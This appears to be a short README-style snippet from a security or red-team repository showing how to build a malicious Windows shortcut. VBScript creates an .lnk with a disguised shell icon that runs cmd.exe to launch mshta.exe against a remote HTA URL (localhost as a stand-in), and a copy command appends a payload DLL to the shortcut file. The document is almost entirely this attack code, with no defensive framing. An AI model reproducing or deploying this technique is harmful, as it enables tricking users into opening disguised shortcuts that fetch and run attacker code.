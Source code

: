 - Create Lnk file
~~~
Set WshShell = Wscript.CreateObject("Wscript.Shell") 
pt="E:\APT-TEST\" 
Set MyLink = WshShell.CreateShortcut(pt & "\untitle.lnk") 
MyLink.TargetPath = "C:\Windows\System32\cmd.exe"
MyLink.Arguments = "/c start mshta.exe http://127.0.0.1/test/mshta.txt 1000 158208"
MyLink.IconLocation = "C:\Windows\system32\SHELL32.dll,2"
MyLink.Save 

~~~

- Append payload.dll to lnk file
~~~
copy lnk + .dll /b newlink.lnk
~~~
